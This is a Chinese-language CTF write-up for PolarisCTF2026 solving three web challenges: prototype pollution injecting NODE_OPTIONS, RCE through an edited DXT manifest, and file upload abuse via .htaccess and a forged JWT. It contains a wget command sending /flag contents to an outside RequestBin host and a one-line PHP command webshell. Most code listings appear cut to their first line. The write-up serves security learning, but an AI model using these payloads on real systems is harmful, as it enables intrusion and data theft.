PolarisCTF2026
ezpollute
这道题给了源码：
1 | const express = require('express'); |
漏洞分析
这题是一个很标准的“原型污染 + 子进程环境变量注入 + Node 启动参数执行”利用链。
入口在 /api/config：
- 程序把用户 JSON 直接喂给了
merge(config, userConfig, res)。 merge只拦了__proto__，没有拦constructor.prototype。- 于是我们可以通过
constructor -> prototype -> 任意属性把属性写到Object.prototype。
关键点是这句：
1 | if (source[key] instanceof Object && key in target) { |
普通对象 config 是通过花括号 {} 创建的，因此其 constructor 是 Object 这个构造函数。
key in target 会沿原型链判断，普通对象上的 constructor 是存在的，所以会继续递归到 config.constructor（也就是 Object），再递归到 Object.prototype 这个全局原型，最终完成污染。
利用点定位
第二个接口 /api/status 会把环境变量拷贝到 customEnv，再用于 spawn：
1 | for (let key in process.env) { |
这里使用的是 for...in。它会枚举可枚举的继承属性，不只枚举对象自身属性。也就是说，如果我们把 NODE_OPTIONS 污染到原型链上，这里就有机会被带入 customEnv。
NODE_OPTIONS 是 Node 的一个环境变量，Node 会在执行前先解析 NODE_OPTIPNS ，并使用里面包含的命令。这个网站比较详细地介绍了 NODE_OPTIONS。
后面程序确实尝试过滤 NODE_OPTIONS：
1 | const dangerousPattern = /(?:^|\s)--(require|import|loader|openssl|icu|inspect)\b/i; |
这个过滤只拦了长参数（--require 这种），没有拦短参数 -r。
所以这里可以直接用：
1 | -r /flag |
子进程实际会变成 node -r /flag -e 'console.log(...)'。
完整利用链
- 向
/api/config发送 JSON，污染Object.prototype.NODE_OPTIONS。 - 访问
/api/status触发子进程创建。 - 子进程读取
NODE_OPTIONS，按-r /flag先去加载/flag。 /flag不是合法 JS 模块时，Node 会抛语法错误，并把文件内容打到 stderr。/api/status把 stderr 回显到info，因此可以看到 flag。
Payload
先污染 NODE_OPTIONS：
1 | POST /api/config |
然后访问：
1 | GET /api/status |
返回的 info 里一般会出现类似 SyntaxError: Invalid or unexpected token，同时会带出 /flag 文件中的内容（也就是 flag）。
如图：

DXT
一道 web 题，题目描述说是一个简单的 mcp_server ，页面如下：

上面说我们需要上传一个 dxt 文件，简单了解了一下，dxt 文件其实就是 zip 文件改个后缀名，但是如果只上传一个 dxt 结尾的 zip 文件的话，页面会返回说找不到 manifest.json ，所以我们还是了解一下正经的 dxt 文件是什么吧。
这个页面比较好地介绍了什么是 dxt 文件，而且告诉了我们要怎么创建一个 dxt 文件。
首先要用 npm 下载一个 dxt ，然后用这个 dxt 工具去创建一个 mcp 。
其实 mcp 就是一个 小工具 ，我们可以写一个 python 代码，然后把它封装成 mcp ，使用就会更加方便了。
dxt 文件里面，比较重要的就是代码文件和 manifest.json 。manifest.json 相当于是一个配置文件，里面介绍和定义了这个 mcp 该怎么使用。
一个正常的 manifest.json 文件的内容是类似这样的：
1 | { |
里面比较重要的就是 command 和 args ，其实我测试发现，上传一个 dxt 文件之后，服务器就会执行 command args，例如这里的 python exp.py 。
因此，其实我们只需要一个脚本，然后编辑一下 manifest.json 里的 command 和 args ，就可以实现 RCE 了。
例如，脚本内容如下：
1 | wget http://www.requestbin.cn:80/111st2u1 --post-data="data=$(cat /flag)" |
然后 manifest.json 内容如下：
1 | { |
这里的 manifest.json ，使用 dxt init 命令创建一个，然后手动修改一下就好了。
之后，我们把 exp.sh 和 manifest.json 打包成 zip 文件，然后把 zip 后缀改为 dxt ，就可以上传到网站上了：


接着按上面的 Start 运行它，我们就可以在 RequestBin 网页里面获得 flag 了：

only_real_revenge
是一个登录的 web 页面，页面源码有一个登录凭据：

然后就用这个账号密码进行登录，登录成功了。
解法一
进入之后是一个上传文件的页面，但是相关的按钮都是灰色的无法点击：

所以我们就用 BurpSuite 拦截一下返回页面，改一下前端代码，使按钮可以被点击：


然后我们就可以尝试上传文件了。
但是测试，这个 dashboard.php 页面，无法真正上传文件，POST 传输文件之后，还是只会返回该页面，没有返回是否上传成功等字样。
于是进行目录扫描，看看有没有其他的目录：

发现了 upload.php 和 uploads 目录，猜测 uploads 就是我们上传之后文件保存的地方。
同时，尝试给 upload.php 页面上传文件：

上传成功了，而且 uploads/shell.jpg 也有我们上传的内容：

但是测试发现，无法上传 php phtml php5 等后缀名的文件。
然而，我发现可以上传 .htaccess，于是就上传了一个用 php 来解析 jpg 文件的 .htaccess ：

其中的内容如下：
1 | <FilesMatch "\.jpg$"> |
然后刚才的 shell.jpg 就能被当成 php 来解析了：

解法二
进入到 web 页面之后，我们发现 Cookie 是一个 JWT ：

我们当前的用户是 user ，因此猜测可能如果是 admin ，我们就可以使用上面的一些功能了。
因此用 jwt-cracker 尝试爆破：

爆破出来 jwt 的密钥是 cdef ，因此用这个密钥，使用 jwt_tool 工具生成一个 admin 的新 JWT ：
1 | ┌──(kali㉿kali)-[~/Tools/jwt_tool] |

用这个 jwt 替换掉原来的 jwt ，我们就可以往 dashboard.php 里面传文件了。
上传一个 s.php ，内容为 <?= ``$_GET[0]``; ，它会返回上传之后的路径：

用这个 webshell 拿 flag：
